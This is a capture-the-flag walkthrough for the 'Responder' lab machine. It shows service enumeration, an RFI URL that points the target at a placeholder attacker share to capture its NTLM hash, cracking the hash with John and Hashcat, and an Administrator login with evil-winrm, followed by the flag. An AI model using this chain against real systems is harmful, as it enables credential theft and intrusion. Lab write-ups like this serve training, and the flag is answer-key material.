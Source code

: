 # CTF Walkthrough: Responder

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** Responder, Remote File Inclusion (RFI), John The Ripper, Hashcat, evil-winrm, SMB       
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV -p- 10.129.80.224`
        - Output:
            ```
            PORT     STATE SERVICE VERSION
            80/tcp   open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
            |_http-title: Unika
            |_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
            5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
            |_http-server-header: Microsoft-HTTPAPI/2.0
            |_http-title: Not Found
            Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
            ```

2. Visit 10.129.80.224, gets redirected to unika.htb

3. Add 10.129.80.224 to /etc/hosts
    - Command: `sudo vim /etc/hosts`
        - Output:
            ```
            10.129.80.224 unika.htb
            ```
4. Start Responder
    - Command: `sudo responder -I tun0`

5. Remote File Inclusion
    - Visit `http://unika.htb/index.php?page=//<ATTACKING_IP>/test`


6. Save the hash to `hash.txt`

7. Crack the hash with
    - Method 1: John the Ripper
        - Command: `john hash.txt -w=/usr/share/wordlists/rockyou.txt`
            - Output:
                ```
                Press 'q' or Ctrl-C to abort, almost any other key for status
                badminton        (Administrator)
                1g 0:00:00:00 DONE (2025-04-22 01:55) 33.33g/s 273066p/s 273066c/s 273066C/s 123456..whitetiger
                ```
    - Method 2: Hashcat
        - Command: `hashcat hash.txt /usr/share/wordlists/rockyou.txt`
            - Output:
                ```
                69ab90d297d2fb90a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100370030000000000000000000:badminton
                ```

8. Connect to winrm
    - Command: `evil-winrm -i 10.129.80.224 -u Administrator -p badminton`

9. Get Flag
    - Command: `cd C:\Users\mike\Desktop
    - cat flag.txt
        - Flag: ea81b7afddd03efaa0945333ed147fac

